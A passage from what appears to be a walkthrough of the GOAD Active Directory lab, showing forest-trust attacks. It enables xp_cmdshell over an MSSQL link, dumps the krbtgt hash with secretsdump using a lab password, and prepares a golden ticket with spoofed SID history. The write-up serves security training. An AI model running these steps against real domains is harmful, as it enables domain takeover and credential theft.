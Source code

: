 - And now use the link from castelblack (north domain) to braavos (essos domain)

```bash
use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami
```

- Because the link use sa as remote login  on braavos we can enable cmd and launch command.

![trust_forest_mssql_exec.png](/assets/blog/GOAD/trust_forest_mssql_exec.png)


## Golden ticket with external forest, sid history ftw ( essos -> sevenkingdoms)

> This attack can be done only because SID history is enabled on the sevenkingdoms->essos trust

- Find the domain sid with lookupsid.py
  - essos SID : S-1-5-21-2203133648-1386395927-1390703624
  - sevenkingdoms SID: S-1-5-21-1409754491-4246775990-3914137275

- Like before extract the krbtgt hash

```
secretsdump -just-dc-user 'essos/krbtgt' essos.local/daenerys.targaryen:'BurnThemAll!'@192.168.56.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e58cf01ba6cc645da9f7ab1f28fc3934:::
...
```

- We need a group to target on the extra-sid with an RID > 1000 due to SID filter ([see Microsoft documentation about sid filtering](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280?redirectedfrom=MSDN))

> About sid filtering dirkjanm say on his [blog](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/) : _"What this does mean for an attacker is that you can spoof any RID >1000 group if SID history is enabled across a Forest trust!"_
{: .prompt-tip }

- The group dragonrider is a perfect match (on a real audit exchange groups are usualy a good target)
